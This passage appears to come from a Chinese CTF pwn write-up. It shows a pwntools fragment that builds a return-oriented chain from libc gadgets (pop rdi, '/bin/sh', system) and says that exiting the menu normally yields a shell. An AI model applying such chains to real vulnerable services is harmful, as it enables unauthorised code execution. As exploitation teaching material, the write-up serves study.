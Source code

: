 ```bash
pop_rdi = libc_base + 0x0000000000028715
bin_sh = libc_base + next(libc.search(b'/bin/sh'))
system = libc_base + libc.sym['system']
ret  = libc_base + 0x0000000000026a3e
sl('1')

pl= p64(0)+ p64(ret) + p64(pop_rdi) + p64(bin_sh) + p64(system)
add(0x400,pl)
```

在 add 函数的 rbp 后面构造 rop

[![](assets/1701606615-717bfcfbb0504453e37fb02347c6011c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213910-5b6b69c2-83bc-1.png)  
然后正常退出就能 getshell

```bash
menu(5)
```

[![](assets/1701606615-8b01d6289c79e50a76afd54a3b6230a9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213924-63fcb3c0-83bc-1.png)

